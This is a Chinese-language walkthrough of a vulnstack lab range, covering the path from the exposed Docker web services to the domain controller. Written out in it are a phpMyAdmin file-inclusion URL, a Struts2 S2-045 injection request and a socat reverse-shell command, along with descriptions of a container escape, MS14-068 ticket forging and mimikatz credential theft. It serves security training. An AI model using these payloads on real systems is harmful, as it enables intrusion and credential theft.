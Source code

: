
# 从外网到域控（vulnstack靶机实战4）


                                阅读量   
                                **867232**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    ![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](./img/198648/t01b1ecef973b4c4fc7.jpg)](./img/198648/t01b1ecef973b4c4fc7.jpg)



## 前言

大家好，我是鸿鹄实验室的lengyi,红日靶机又更新了，所以我就玩了玩…

vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

具体的网络架构作者已经给出，如下图：

[![](./img/198648/t01f8a9cb5b5cfd0621.png)](./img/198648/t01f8a9cb5b5cfd0621.png)

ubuntu为我们的web环境，其中的web环境需要手动开启，全部为docker环境，启动方法如下：

```
docker-compose build
docker-compose up -d
```

需要启动的环境分别为：s2-045、CVE-2017-12615、 cve-2018-12613，别问我怎么知道的，问就是试的….

全开的效果：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f6e98208527d6773.png)



## 外网测试

既然是docker的环境，那就把三个web全部拿下先，先从tomcat的开始，CVE-2017-12615是一个老漏洞了，很简单的利用，put上传webshell即可。

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016323af444e2813cf.png)

然后发现目标为root权限（docker环境不为root还奇怪呢…）

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010cfb13d9a037f974.png)

好，我们这个先放到一边，再来继续测试另外两个环境，CVE-2018-12613,这个是一个phpmyadmin的洞，也就是文件包含，利用起来也还算方便，方法如下（环境为config模式，可直接使用test账户登录）：

```
http://192.168.0.104:2003/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aed19590cbdeb901.png)

至于包含shell也是比较简单的，select执行一个php代码，包含自己的session即可。

下面是st2-045，st2系列也是一个经典的系列，直接构造下面的数据包即可rce。

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0165b8dc52c842a48a.png)

好了，三个环境就算是基本完成了，下面就是一个比较重要的问题，docker逃逸。我这里使用cve-2019-5736进行逃逸。先使用msf搞一个shell回来：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0134f67f84a0c4afdb.png)

这里是我们可以修改在宿主机上进行操作的命令

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01271b57f09084cac8.png)

可自行修改对于的payload，然后编译，

```
go build main.go
```

然后将编译好的文件传到目标机上，因为我已经有了一个大马了，上传很方便。继续为了方便,socat搞一个tty的shell过来

```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01911edaaa762762b8.png)

执行

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b5ad4615116ded65.png)

然后在主机执行：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a4f5ce7ed51d3be8.png)

Poc执行成功：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015f176d4ac61370b0.png)

然后我们用这种方法(直接传shell或者添加用户搞shell)在宿主机上执行一个cs和msf的shell回来。

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017b354dd1c56b3a4e.png)



## 横向移动

msf添加路由，session返回到后台

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fa23b39d6731312f.png)

因为有拓扑图，只需要进行攻击即可，我们先来测试win7，内网嘛，17-010试试？

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0171eb79f56ad2c1fa.png)

不过，有一说一，我就没打虚拟机成功过….

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018546c2a61aee4cd2.png)

当然也有可能是uac的问题，换成bypassUAC的进行测试：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d740aaa6930dfc44.png)

获得shell

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016753109dc3c66085.png)

且直接是system权限：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0148dd9ee763df5d6f.png)

进入交互模式，随手一看，发现有一些存在的工具，不知道是不是作者的安排,虽然没有到时候也需要传一些…

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017450a45962ddbff7.png)



## 进攻域控

先抓一下win7的明文：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01056de58df1d777de.png)

然后就是忌出我们的ms14-068了

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fb5369838add51c8.png)

然后查看本机用户的id

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01fe9c1c4faa67a331.png)

写入成功：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cc7806ca72c3d6a9.png)

mimikztz注入票据

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0172ab16e17ac27ca4.png)

获取域控权限：

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017ed6b8cf2b94dd01.png)

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01784b20102df44503.png)

然后将payload放到ubuntu上，使用certutil下载、执行，即可获取shell。

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0157ef6aa9dd5d67ab.png)

发现部分administrator的进程

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e52b9c9195afe561.png)

进行令牌窃取

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01026fdceb4d1dedbf.png)

获得administrator权限，然后抓取明文密码

[![](./img/198648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d440b731e55aec73.png)

打完收工。



## 总结

哦，谢谢红日的各位师傅们，拜谢，啊，我想开学…
